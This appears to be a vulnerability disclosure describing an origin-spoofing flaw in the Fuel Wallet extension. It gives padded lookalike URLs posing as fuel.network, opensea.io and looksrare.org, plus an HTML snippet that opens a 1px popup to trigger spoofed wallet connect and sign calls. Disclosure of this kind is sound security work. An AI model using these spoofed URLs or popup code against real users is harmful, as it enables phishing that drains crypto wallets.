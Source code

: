 (when visiting make sure to have your `Fuel Wallet` fully setup and ready to be used.) - (**In the video and PoC connecting FUEL wallet, and executing the WEB3 API transaction is done manually, but via simple js can be triggered automatically**)

`https://fuel.network________________________________fuel.network.__________________________________________________.xdv.cz.srv21.endora.cz/metapoc/block.php`

`https://opensea.io________________________________opensea.io.__________________________________________________.xdv.cz.srv21.endora.cz/metapoc/block.php`

`https://looksrare.org________________________________looksrare.org.__________________________________________________.xdv.cz.srv21.endora.cz/metapoc/block.php`

(The position of the spoofed domain is up to the attacker; it can be at the beginning of URL as well.)

WATCH: VIDEO SPOOF POC

https://ugwst.com/pocs/fuell.mp4

(**In the video and PoC connecting FUEL wallet, and executing the WEB3 API transaction is done manually, but via simple js can be triggered automatically**)

Furthermore the attacker can aswell craft clever pop-up exploit which opens small window 1px by 1px and instantly executes the spoofed web3 calls, then the attacker can include javascript to close the window instantly.

This exploit was possible to be used on many popular platforms which allows web3 wallet interactions via their playgrounds to display NFT's via SVG.

Code example:

```
<a href="#"  onclick="window.open('https://opensea.io________________________________opensea.io.__________________________________________________.xdv.cz.srv21.endora.cz/metapoc/block.php','mywindow','menubar=1,resizable=1,width=1,height=1'); return false;">
    Authorize transaction
</a>

```

The victim clicks authorize transaction, from fake website however the wallet pop up matches the legitimate top-level domain.

The trick here is that each character in the URL bar has slightly different length / width; it allows an attacker to craft URL which will perfectly fit for spoofed shown origin.

As described previously the attacker would optimally want to use this vulnerability from embeds or using pop-ups - like `reddit.com` or `opensea.io`, `looksrare.org` since the spoofed domain would match the top-level origin the victim is on, there is zero trust issues to authorize the malicious spoofed origin and quickly execute two calls - connect wallet then sign which would lead to complete compromise of crypto wallet.

## Recommendations:

As shown in examples and real-world reports, the ability to spoof origins needs to be fixed. Users rely on the `Fuel Wallet` to show them the true origin of web3 api execution for critical functions like signatures etc.
